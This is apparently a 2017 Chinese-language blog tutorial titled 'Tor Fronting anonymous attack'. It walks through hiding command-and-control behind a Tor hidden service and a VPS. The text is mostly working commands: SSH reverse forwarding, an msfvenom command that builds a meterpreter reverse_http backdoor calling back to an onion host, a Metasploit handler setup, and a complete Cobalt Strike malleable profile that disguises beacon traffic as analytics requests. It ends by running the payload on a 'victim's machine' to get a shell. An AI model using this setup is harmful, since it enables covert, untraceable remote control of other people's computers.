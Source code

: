 ```yaml
---
layout:     post
title:      Tor Fronting 匿名攻击
author:     wooy0ung
tags: 		msf
category:  	exploit
---
```



>利用 VPS 作为跳板强化可持续控制, 但还是会泄漏一部分个人信息。  
>Tor Hidden Services 提供了隐藏自身网络的服务, 它提供了一个唯一并且匿名的 hostname, 配合 VPS 进行流量转发, 最终实现匿名持续控制。  
![](/assets/img/exploit/2017-09-03-tor-fronting/0x00.png)
<!-- more -->


### 0x00 config Tor Hidden Services

查看系统版本

```
$ lsb_release -a
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x01.png)

选择对应的版本, [传送门](https://www.torproject.org/docs/debian.html.en#ubuntu)

![](/assets/img/exploit/2017-09-03-tor-fronting/0x02.png)

按提示要求安装, 然后编辑 /etc/tor/torrc 文件(取消注释)

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```

重启 Tor 服务

```
$ sudo service tor restart
```


### 0x01 开启 http 服务

查看 hostname

```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

打开 http 服务

```
$ cd /tmp
$ python -m SimpleHTTPServer 8080
```

浏览器访问 xxx.onion.link, 确认页面能正常打开再关闭服务


### 0x02 payload & exploit

端口转发

```
$ ssh -N -R 8080:192.168.1.104:8080 root@VPS_IP
```

生成 http 反弹后门

```
$ msfvenom -p windows/meterpreter/reverse_http lhost=xxx.onion.link lport=80 -f exe > shell.exe
```

设置好 msf

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 8080
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

在 Victim's machine 执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x03.png)


### 0x03 cobaltstrike

将 teamserver、cobaltstrike.jar上传到 vps, 在 vps nano tor-fronting.profile 文件, 添加以下内容

```
set sleeptime "5000";
http-get {
        set uri "/___utm";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                metadata {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
http-post {
        set uri "/__utm";
        set verb "GET";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
                output {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
# dress up the staging process too
http-stager {
        server {
                header "Content-Type" "plain/text";
        }
}
```

打开 teamserver

```
$ ./teamserver VPS_IP msf tor-fronting.profile
```

连接 teamserver

```
$ ./cobaltstrike
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x04.png)

新建 listener

![](/assets/img/exploit/2017-09-03-tor-fronting/0x05.png)
![](/assets/img/exploit/2017-09-03-tor-fronting/0x06.png)

生成 payload

![](/assets/img/exploit/2017-09-03-tor-fronting/0x07.png)

在 Victim's machine 的 powreshell 下执行以下命令, 允许执行不信任脚本

```
> set-ExecutionPolicy RemoteSigned
```

再执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x08.png)